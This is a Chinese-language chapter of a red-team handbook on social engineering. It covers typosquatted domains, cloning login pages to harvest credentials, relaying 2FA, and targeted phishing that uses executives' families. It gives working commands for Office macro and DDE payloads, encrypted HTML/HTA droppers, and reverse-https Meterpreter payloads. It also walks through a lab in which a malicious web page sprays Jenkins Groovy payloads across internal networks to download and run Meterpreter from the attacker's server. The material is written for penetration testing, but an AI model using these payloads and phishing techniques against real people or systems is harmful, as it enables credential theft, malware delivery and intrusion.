# 5 屏幕 - 社会工程学

构建您的社会工程学 (SE) 活动

作为红队人员，我们热衷于社会工程学（SE）攻击。不仅因为它们通常涉及低技能攻击，而且因为它们可以以极低的成本构建高度值得信赖的活动。只需设置几个虚假域名、服务器，制作一些邮件，分发一些 U 盘，然后结束。

在指标方面，我们捕捉明显的数据，例如发送的电子邮件数量、点击链接的用户数量以及输入密码的用户数量。我们还努力发挥创意，为聘请我们的公司提供实质性价值。例如，这是 DefCon 的社会工程学竞赛，竞争对手对呼叫中心进行社会工程学攻击。如果您不熟悉这项竞赛，这些竞争对手在有限时间内必须根据公司的标志捕获数字。标志可以通过获取公司信息（如他们的 VPN、他们使用的 AV 类型、员工特定信息，或让员工访问 URL 等）来捕获。如果您想查看竞赛中使用的所有标志，请查看 2017 年竞赛报告：`http://bit.ly/2HlctvY`。此类攻击有助于公司提高内部意识，教导员工如何识别威胁并报告给相关团队。

在本章中，我们将简要介绍用于运行活动的工具和技巧。对于 SE 风格攻击，没有对错的正确答案。只要它们有效，在我们看来都是好的。

## Doppelganger 域

我们在 THP2 中谈论过这个。这仍然是获取初始凭据或下载恶意软件的最成功的方式之一。最常见的技术是购买与公司的 URL 非常相似的域，或者是他们 URL 的常见拼写错误。

在上本书中，我们有一个例子，如果我们拥有 `mail.cyberspacekittens.com`，我们将购买域名 `mailcyberspacekittens.com` 并设置一个虚假的 Outlook 页面来捕获凭据。当受害者去假网站并输入他们的密码时，我们会收集这些数据并将他们重定向到公司的有效电子邮件服务器 (`mail.cyberspacekittens.com`)。这使他们产生印象，他们只是不小心在第一次输入密码时输入错了，因此会再次登录。

所有这些最好的部分是，您根本不需要进行钓鱼。有人会在“mail”和“cyberspacekittens”之间打错或忘记句号（`.`），然后输入凭据。我们曾让受害者标记我们的恶意网站并每天返回。

## 如何克隆认证页面

用于快速克隆 Web 应用程序认证页面的最佳工具之一是 TrustedSec 的 Social Engineering Toolkit (SET)。这是任何 SE 活动的标准工具，获取凭据是优先事项。您可以在 `https://github.com/trustedsec/social-engineer-toolkit` 下载 SET。

**配置 SET 使用 Apache**（而非默认的 Python）

* 修改配置文件如下：
  * `gedit /etc/setoolkit/set.config`
    * `APACHE_SERVER=ON`
    * `APACHE_DIRECTORY=/var/www/html`
    * `HARVESTER_LOG=/var/www/html`
* **启动 Social Engineering Toolkit (SET)**
  * `cd /opt/social-engineer-toolkit`
  * `setoolkit`
  * **1) Spear-Phishing 攻击矢量**
  * **2) 网站攻击矢量**
  * **3) 凭据收集器攻击方法**
  * **2) 站点克隆器**
  * **您的攻击者服务器 IP**
  * **要克隆的站点**
  * **打开浏览器并前往您的攻击者服务器进行测试**

所有文件将存储于 `/var/www/html`，密码存储于 `harvester*.`。克隆社交网络工程页面时的一些最佳实践：

* 将您的 Apache 服务器移至 SSL 上运行
* 将所有图像和资源本地化（而不是从克隆的站点调用）
* 我个人喜欢将所有记录密码与我的公开 PGP 密钥一起存储。这样，如果服务器被入侵，没有私钥是无法恢复密码的。这可以通过 PHP `gnupg_encrypt` 和 `gnupg_decrypt` 支持。

## 具有 2FA 的凭据

我们看到越来越多的客户使用双重因素认证 (2FA)。虽然 2FA 对红队来说是个大问题，但它们并非不可能绕过。从历史上看，我们必须创建自定义页面来处理一些内容，但现在我们有 ReelPhish。ReelPhish 是由 FireEye 制作的工具，允许红队在受害者进入我们钓鱼页面时自动触发 2FA。

**ReelPhish `https://github.com/fireeye/ReelPhish`：**

* 克隆需要 2FA 认证的受害者站点
* 在您的攻击者盒子上，解析登录真实站点所需的流量。在我的情况下，我打开 Burp Suite 并获取认证所需的所有 post 参数
* 修改克隆站点以使用 ReelPhish。参见 `. /examplesitecode/samplecode.php` 并输入所有必要的认证参数
* 受害者陷入克隆网站并认证
* 凭据推回攻击者
* ReelPhish 将认证到真实网站，触发 2FA
* 受害者收到 2FA 代码或手机推送
* 受害者被重定向到真实网站再次登录（认为他们第一次失败了）

如以下图像所示，我们现在拥有了一个绕过 2FA 的已认证会话。虽然看起来支持 Linux，但我曾在 Kali 中运行遇到一些问题。在 Windows 上运行是首选。您可以在 FireEye 网站找到关于 ReelPhish 的更多信息：`https://www.fireeye.com/blog/threat-research/2018/02/reelphish-real-time-two-factor-phishing-tool.html`。



还有一些其他处理不同 2FA 绕过的工具：

* `https://github.com/kgretzky/evilginx`
* `https://github.com/ustayready/CredSniper`

我想提到的一点是，一旦获取凭据，请确保验证所有不同的认证方法。我的意思是，他们可能在 Web 认证门户上使用 2FA，但可能不需要用于 API、旧厚客户端或所有应用程序端点。我们见过许多应用程序需要在常见端点进行 2FA，但缺乏应用程序其他部分的安全保护。

## 钓鱼

红队取得巨大成功的是传统钓鱼。钓鱼的核心依赖于恐惧、紧迫感或听起来过于美好而不可信的事情。恐惧和紧迫感确实有效，我相信我们都曾见过。一些恐惧和紧迫感攻击的例子包括：

* 带有欺诈性购买的虚假电子邮件
* 有人入侵您的电子邮件消息
* 关于税务欺诈的电子邮件

这些通用攻击的问题在于，我们注意到企业员工变得越来越聪明。通常情况下，对于基础的`phish`式攻击，大约每 10 封邮件中就有至少 1 封会被报告。在某些情况下，这个比例要高得多。这就是为什么让`Red Team`持续监控这些易于识别的`phish`攻击，以观察公司是否在这些应对情况中变得更好，这是有价值的。

对于那些寻求更自动化攻击的人来说，我们非常喜欢`Gophish` (http://getgophish.com/documentation/)。它相当容易设置和维护，支持模板和 HTML，并能记录/文档化所有您需要的信息。如果您是`Ruby`的粉丝，也有`Phishing Frenzy` (https://github.com/pentestgeek/phishing-frenzy)；而对于`Python`，则有`King Phisher` (https://github.com/securestate/king-phisher)。

这些自动化工具非常适合记录直截了当的`phishing`活动。对于我们的目标活动，我们采用更手动的方式。例如，如果我们针对受害者邮件记录进行一些`reconnaissance`并确定该客户端使用的是`Office 365`，那么我们可以利用这些信息构建一个非常真实的`campaign`。此外，我们尝试查找该公司的任何泄露邮件、可能运行的程序、新功能、`系统升级`、并购以及其他任何有助于我们的信息。

有时，我们也会针对高管运行更有针对性的`campaign`。在这些`campaign`中，我们尝试使用所有`open source`工具搜索有关人员、其财产、家庭等的信息。例如，如果针对某位高管，我们会在`pipl.com`上搜索他们，获取他们的`social media`账户，找出他们的孩子去了`school`，并伪造一封来自他们`school`的邮件，声称需要打开这个`word document`。这些需要相当的时间，但具有高成功率。

### Microsoft Word/Excel Macro Files

一种较旧的，但`tried`和`tested`的`social engineering`方法是向受害者发送一个`malicious` `Microsoft Office`文件。为什么`Office`文件对`malicious`有效载荷很出色？因为默认情况下，`Office`文件支持应用程序的`Visual Basic` (`VBA`) 代码，允许进行`code`执行。不过，较最近，这种方法很容易被`AV`检测，但在许多情况下，通过`obfuscation`仍有效。

在最基本的层面上，我们可以使用`Empire`或`Unicorn`来创建`VBA` `Macro`：

* 在`Empire`中：
  * 选择`Macro` `Stager`
  * `usestager windows/macro`
  * 确保配置正确的设置
    * `info`
  * 创建`Macro`
    * `generate`
* 如果您想要为`Meterpreter`创建`Payload`，可以使用`Unicorn`之类的工具：
  * `cd /opt/unicorn`
  * `./unicorn.py windows/meterpreter/reverse_https [your_ip] 443 macro`
  * 启动`Metasploit` `Handler`
    * `msfconsole -r ./unicorn.rc`

生成后，您的有效载荷看起来如下：



如您所见，这是运行一个简单的 `PowerShell` base64 `obfuscated` 脚本。这可以帮助绕过某些 `AV` 产品，但重要的是在启动 `live` `campaign` 之前要确保测试好。一旦生成 `macro`，可以创建 `quick` `Excel` 文档：

* 打开 `Excel`
* 转到 `View Tab` -> `Macros` -> `View Macros`
* 添加 `Macro` 名称，为 `book1` 配置 `Macro`，并点击 `Create`



* 用生成的 `generated` 代码替换所有当前的 `Macro` 代码
* `Save` 为 `.xls` (`Word 97-2003`) 或 `Excel` `Macro-Enabled`



现在，无论谁打开您的 `document`，都会收到 `Security Warning` 和一个 `Enable Content` 按钮。如果您能诱使受害者点击 `Enable Content` 按钮，您的 `PowerShell` 脚本将执行，获得 `Empire Shell`。



正如 `previously` 提到的，`Macro` 方法是旧的，`tried` 和 `tested` 方法，因此许多受害者可能已经意识到这种 `attack`。我们在 `Office Files` 中采取的另一个路线是 `embedding` 一个 `batch file` (.bat) 带有我们的 `payload`。在较新的 `Office` 版本中，如果受害者在 `Word` 文档中双击 `.bat file`，`objects` 将不会执行。我们通常必须诱使他们将其移至 `desktop` 并执行。



我们可以用 `LuckyStrike` (https://github.com/curi0usJack/luckystrike) 以更 `automated` 的方式来做这件事。使用 `LuckyStrike`，我们可以创建包含我们的 `Payload` 的 `worksheets` 的 `Excel` 文档，甚至可以将完整 `executables` (exes) 存储在 `Excel` 文档内部，可以使用 `ReflectivePE` 在内存中运行。在此阅读更多关于 `LuckyStrike` 的内容：

* https://www.shellntel.com/blog/2016/9/13/luckystrike-a-database-backed-evil-macro-generator

我想提到的另一个 `Office File` `executables` 工具是 `VBad` (https://github.com/Pepitoh/VBad)。运行 `VBad` 时，您必须启用 `Office` 中的 `macros` 并在 `macro` 安全设置中选中"`Trust Access` to the `VBA` project object model"。这允许 `VBad` `python` 代码更改并创建 `macros`。

`VBad` 严重 `obfuscates` 您的 `payloads` 在 `MS Office` 文档内。它还添加 `encryption`，有 `fake keys` 来干扰 `IR teams`，最重要的是，它可以在第一次成功运行后 `destroy` `encryption key` (一次性使用的 `Malware`)。另一个 `feature` 是 `VBad` 还可以 `destroy` 包含有效 `payload` 的 `module` 的引用，以使其在 `VBA Developer Tool` 中不可见。这使得 `analysis` 和 `debugging` 变得更加困难。所以，不仅是 `reverse` 的完全 `pain`，而且如果 `incident response` 团队尝试 `analyze` `executed` `Word` 文档而非 `original` 文档，所有的 `keys` 都会丢失。



### Non-Macro Office Files - DDE

关于 `Red Team` 攻击的一件事是，有时一切关于 `timing`。在我们的一次 `assessments` 中，一个名为 `DDE` 的 `vulnerable` 品牌新工具首先被宣布。它尚未被 `AV` 或任何 `security product` 检测到，因此是获取我们 `initial` 入口点的绝佳方式。虽然现在有几种 `security products` 可以检测 `DDEs`，它仍可在某些 `environments` 中是可行的 `attack`。

`DDE` 是什么？

`Windows` 提供几种在 `applications` 之间传输 `data` 的方法。一种方法是使用 `Dynamic Data Exchange` (`DDE`) 协议。`DDE` 协议是一组 `messages` 和 `guidelines`。它向 `applications` 之间发送 `messages`，这些 `applications` `share` `data`，并使用 `shared memory` 在 `applications` 之间交换 `data`。`Applications` 可以使用 `DDE` 协议进行一次性 `data` 传输和 `continuous exchanges`，其中 `applications` 在成为可用的新 `data` 时向彼此发送 `updates`。 [https://msdn.microsoft.com/en-us/library/windows/desktop/ms648774(v=vs.85).aspx]

`Sensepost` 的 `team` 做了一些优秀的 `research`，发现 `DDEExecute` 被 `MSExcel` 和 `MSWord` 暴露，并且它们可以用于在不使用 `Macros` 的情况下创建 `code` 执行。

在 `Word` 中：

* 前往 `Insert Tab` -> `Quick Parts` -> `Field`
* 选择 = `Formula`
* 右键点击：`!Unexpected End of Formula` 并选择 `Toggle Field Codes`
* 将 `payload` 更改为您的 `payload`：
  * `DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell.exe [empire payload here]"`



`Empire` 有一个 `stager` 会自动创建 `Word file` 和相关的 `PowerShell` 脚本。该 `stager` 可以通过以下方式配置：

* `usestager windows/macroless_msword`



`Resources`:

* https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/


除了 0 日漏洞（即 `https://github.com/bhdresh/CVE-2017-0199`）之外，Word 文档中是否还有其他可以被滥用的功能？答案是肯定的。虽然本书不会涵盖这一点，但一个例子是 subdoc 攻击 (`https://rhinosecuritylabs.com/research/abusing-microsoft-word-features-phishing-subdoc/`)。这些攻击会导致受害者在互联网上向攻击者服务器发起 SMB 请求，以便收集 NTLM 认证哈希。这种攻击是否有效存在不确定性，因为大多数公司现在会阻止向外连接 SMB 相关端口。对于那些没有阻止的公司，我们可以使用 `subdoc_initor` (`http://bit.ly/2qxOuiA`) 攻击，利用这种配置错误。

## 隐藏的加密负载

作为红队成员，我们总是在寻找创造性的方式来构建落地页，加密我们的负载，并诱骗用户点击运行。两款具有类似流程的工具是 `EmbededInHTML` 和 `demiguise`。

第一种工具 `EmbededInHTML`：“将任意文件（任何类型的文件）加密，并将其嵌入 HTML 文件中的资源，附带自动下载流程，模拟用户点击嵌入的资源。然后，当用户浏览 HTML 文件时，嵌入的文件会在 fly 上解密，保存到临时文件夹，然后将文件呈现给用户，就像从远程站点下载一样。根据用户的浏览器和文件类型，浏览器可以自动打开该文件。” [`https://github.com/Arno0x/EmbedInHTML`]

```
cd /op/EmbedInHTML
python embedInHTML.py -k keypasshere -f meterpreter.xll -o index.html -w
```




一旦受害者访问恶意网站，弹出窗口会提示受害者在我们的 `.xll` 文件中打开 Excel。不幸的是，对于较新版本的 Excel（除非配置错误），用户需要启用附加组件才能执行我们的负载。这正是你的社会工程学技巧发挥作用的时候。

第二种工具 `demiguise`，“生成包含加密 HTA 文件的 `.html` 文件。想法是，当你的目标访问页面时，密钥被获取，HTA 在浏览器中动态解密并直接推送到用户。这是一种规避技术，绕过了某些安全设备实施的內容/文件类型检查。该工具并非设计用于创建出色的 HTA 内容。其他工具/技术可以帮助你实现这一点。它可以帮助你做的第一件事是将你的 HTA 放入环境中，并在（如果你使用环境密钥化）避免被沙盒。” [`https://github.com/nccgroup/demiguise`]

```
python demiguise.py -k hello -c "cmd.exe /c <powershell_command_here>" -p Outlook.Application -o test.hta
```



## 利用社会工程学攻击内部 Jenkins

作为红队成员，攻击中的创造性正是我们工作极其令人兴奋的原因。我们喜欢将旧漏洞重燃，使其焕然一新。例如，如果您正在进行网络评估，您知道如果遇到问题未经身份验证的 Jenkins 应用程序（开发人员在持续集成中广泛使用），基本上就意味着完全被控制。这是因为它具有“功能”，允许 Groovy 脚本执行以进行测试。利用此脚本控制台，我们可以执行允许访问底层系统的 shell 命令。


为什么这种方法成为控制如此流行的原因，因为几乎每个大公司都有某些实例的 Jenkins。外部攻击的问题在于，这些 Jenkins 服务都是托管在内部，无法从外部到达。

我们如何在那些服务器上远程执行代码？在我们回答这个问题之前，我要求我的团队退一步，建立一个带有 Jenkins 的副本网络进行测试。一旦我们很好地理解了代码执行请求如何工作，我们现在可以构建适当的工具来获得 RCE。

在这种情况下，我们通过 JavaScript 和 WebRTC（Web 实时通信）的大量步骤解决了这个问题。首先，我们需要组织受害用户访问我们拥有的公共网站或我们存储的 XSS 负载的页面。一旦受害者访问我们的公共网站，我们将在其浏览器上执行 JavaScript 来运行我们的恶意负载。

此负载会滥用 Chrome/Firefox“功能”，该功能允许 WebRTC 向受害者内部 IP。通过内部 IP，我们可以随后推断受害者计算机的本地子网，以了解其企业 IP 范围。现在，我们可以针对其网络范围内的每个 IP（代码仅扫描本地 `/24`，但在真实活动中，您希望它比那个更大），使用我们精心制作的 Jenkins 漏洞，通过默认 Jenkins 端口 8080。

下一个问题是，我们使用什么负载？如果您玩过 Jenkins Console shell，您知道它有点挑剔，所以能够持续获得复杂的 PowerShell 负载可能很困难。为了解决这个问题，为 THP3 创建了一个工具 `generateJenkinsExploit.py` (`https://github.com/cheetz/generateJenkinsExploit`)，它将采用任何二进制文件，对其进行加密，并构建恶意攻击 JavaScript 页面。当受害者击中我们的恶意网页时，它将获取其内部 IP，并开始喷洒我们的漏洞到 `/24` 范围内的所有服务器。当它找到漏洞的 Jenkins 服务器时，攻击将发送 Groovy 脚本负载，从攻击者的服务器抓取加密的二进制文件，解密并在 `C:\Users\Public\RT.exe` 下执行 Meterpreter 二进制 (`RT.exe`)。

概念（下图）中，这与服务器端请求伪造 (SSRF) 非常相似，我们迫使受害者浏览器重新向内部 IP 连接。

*   受害者访问我们存储的 XSS 或恶意 JavaScript 页面。
*   受害者浏览器执行 JavaScript/WebRTC 获取内部 IP，并向本地内部网络喷洒 Groovy POST 负载。
*   当找到 Jenkins 服务器时，我们的 Groovy 代码将告诉 Jenkins 服务器从攻击者服务器抓取加密的负载，然后解密并执行二进制文件。
*   在这种情况下，我们下载的加密可执行文件是 Meterpreter 负载。
*   Meterpreter 在 Jenkins 服务器上执行，然后连接到我们的攻击者 Meterpreter 服务器。



注意：此漏洞在最新版本的 Jenkins 中不存在。2.x 之前的版本默认漏洞，因为它们没有启用 CSRF 保护（允许对 `/script/` 的盲调用）并且没有启用身份验证。

## 完整的 Jenkins 利用实验室

*   我们将构建一个 Jenkins Window 服务器，以便可以重复此攻击。
*   安装带有本地网络桥接接口的 Windows VM。
*   在 Windows 系统上，下载并安装 JAVA JDK8。
*   下载 Jenkins War 文件：
    *   `http://mirrors.jenkins.io/war-stable/1.651.2/`
*   启动 Jenkins：
    *   `java -jar jenkins.war`
*   浏览 Jenkins：
    *   `http://<Jenkins_IP>:8080/`
*   测试 Groovy 脚本控制台：
    *   `http://<Jenkins_IP>:8080/script`

## 在 THP Kali VM 上利用 Jenkins

*   下载 THP Jenkins Exploit Tool (`http://bit.ly/2IUG8cs`)。
*   要执行实验室，我们首先需要创建 Meterpreter 负载：
    *   `msfvenom -p windows/meterpreter/reverse_https LHOST=<attacker_IP> LPORT=8080 -f exe > badware.exe`
*   加密我们的 Meterpreter 二进制：
    *   `cd /opt/generateJenkinsExploit`
    *   `python3 ./generateJenkinsExploit.py -e badware.exe`
*   创建称为 `badware.html` 的恶意 JavaScript 页面：
    *   `python3 ./generateJenkinsExploit.py -p http://<attacker_IP>/badware.exe.encrypted > badware.html`
*   将加密二进制文件和恶意 JavaScript 页面移动到 Web 目录：
    *   `mv badware.html /var/www/html/`
    *   `mv badware.exe.encrypted /var/www/html/`



现在，在一个完全不同的系统中，使用 Chrome 或 Firefox 访问您的攻击者网页 `http://<attacker_IP>/badware.html`。只需访问该恶意页面，您的浏览器就会使用 JavaScript 和 POST 请求，通过端口 8080 对我们的 Groovy 有效负载向内部 `/24` 网络广播。当它找到 Jenkins 服务器时，会导致该服务器下载我们的加密 Meterpreter，解密并执行它。在企业的网络上，您可能会得到各种各样的外壳。



Jenkins 只是您可以进行的众多攻击之一。任何允许使用 GET 或 POST HTTP 方法未经身份验证执行代码的功能都可以在同一场景中使用。这就是您需要识别受害者内部利用的应用程序并制作恶意攻击。

## 结论

社会工程学是那些猫鼠游戏将永远是区域。我们严重依赖人类因素，并利用恐惧、紧急性和信任的目标弱点。利用这些漏洞，我们可以创建非常聪明的活动，在系统破坏中具有高成功率。

在指标和目标的方面，我们需要远离等待用户报告钓鱼/SE 邮件的反应性模型，转向积极的模型，我们可以积极狩猎这些类型的恶意攻击。
